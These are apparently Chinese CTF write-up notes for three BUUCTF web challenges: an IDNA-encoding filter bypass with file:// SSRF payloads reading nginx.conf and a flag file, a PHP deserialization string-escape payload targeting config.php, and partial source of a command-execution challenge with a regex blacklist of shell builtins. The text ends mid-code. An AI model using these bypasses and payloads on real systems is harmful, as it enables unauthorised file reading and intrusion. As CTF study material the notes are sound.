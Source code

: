 知识点:

idna与utf-8编码漏洞

```
℆这个字符,如果使用python3进行idna编码的话
print('℆'.encode('idna'))
结果
b'c/u'
如果再使用utf-8进行解码的话
print(b'c/u'.decode('utf-8'))
结果
c/u
通过这种方法可以绕过网站的一些过滤字符
```

payload:

`/getUrl/?url=file://suctf.c℆sr/local/nginx/conf/nginx.conf`

`/getUrl?url=file://suctf.c℆sr/fffffflag`



# buuctf piapiapia

反序列化字符串逃逸

需要逃逸的字符串为:

";}s:5:"photo";s:10:"config.php";}

//flag在config.php中

因为filter函数把where换成了hacker,多了一个字节

所以存在反序列化逃逸

**注意:**

因为nickname的长度要<10,所以要把nickname转换成数组

![image-20240506235057793](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240506235057793.png)



# buuctf RCEservice

附上源码

```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
```